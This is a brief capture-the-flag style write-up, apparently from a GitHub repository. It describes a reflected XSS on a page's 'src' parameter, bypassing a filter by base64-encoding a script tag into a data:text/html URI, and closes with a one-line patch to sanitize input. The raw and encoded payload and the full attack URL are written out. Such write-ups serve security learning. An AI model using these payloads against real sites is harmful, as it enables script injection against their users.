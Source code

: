## XSS Injection on URL

If we click on nsa image, we can see the src in the url, and try to exploit it,
Direct injection don't work so we use base64 to test a classique : 
```<script>alert('XSS')</script>```
in base64 : ```PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=```
```http://x.x.x.x/index.php?page=media&src=src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=```

## Patch 
Use library to check user input and sanitize the data...